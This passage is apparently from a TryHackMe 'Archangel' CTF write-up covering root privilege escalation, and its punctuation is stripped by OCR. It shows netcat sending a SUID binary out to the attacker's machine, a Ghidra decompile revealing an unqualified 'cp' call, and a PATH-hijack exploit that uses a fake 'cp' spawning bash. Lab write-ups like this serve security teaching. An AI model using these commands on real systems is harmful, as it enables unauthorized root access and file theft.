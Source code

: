 Root Privilege Escalation
                         

As the archangel user  we now have access to the myfiles directory located in the compromised user s home directory 

    Binary Exploitation

Within this directory lies a  backup  file with SETUID root permissions  Upon executing this file  we can see that the binary is calling the cp command 

archangel ubuntu   secret    backup  
cp  cannot stat   home user archangel myfiles     No such file or directory

We can download this file using netcat to further analyze this binary on our attack box with Ghidra  3    ftnt3  

   highlight bash   
archangel ubuntu   secret  nc  w3 10 2 29 238 9001   backup
  
   0xd4y Writeup     business tryhackme easy linux archangel       nc  lvnp 9001   backup  
listening on  any  9001      
connect to  10 2 29 238  from  UNKNOWN   10 10 72 16  42682  
   0xd4y Writeup     business tryhackme easy linux archangel   
      ls  
backup  lfi  nmap  notes txt
   endhighlight   

     Reverse Engineering

Ghidra converts assembly code into C code  It finds that this file is relatively small with only a couple lines of code 

   highlight c   
undefined8 main void   
  
   
 setuid 0   setgid 0   system  cp  home user archangel myfiles    opt backupfiles    return 0   
 
   endhighlight   

As can be seen  the binary is calling the cp command without using a full path 

     Command Injection

Thus  we can exploit this vulnerability by creating a file called cp and modifying our PATH environment variable to prioritize the location of this malicious file  4    ftnt4  

   highlight bash   
archangel ubuntu   secret  cat cp  
 bin bash  
archangel ubuntu   secret  chmod  x cp  
archangel ubuntu   secret  echo  PATH  
 usr local sbin  usr local bin  sbin  bin  usr sbin  usr bin  
archangel ubuntu   secret  export PATH    PATH  
archangel ubuntu   secret  ls  
backup  cp  user2 txt
   endhighlight   

Now when we execute the backup binary  it will run our malicious file instead of the intended command 
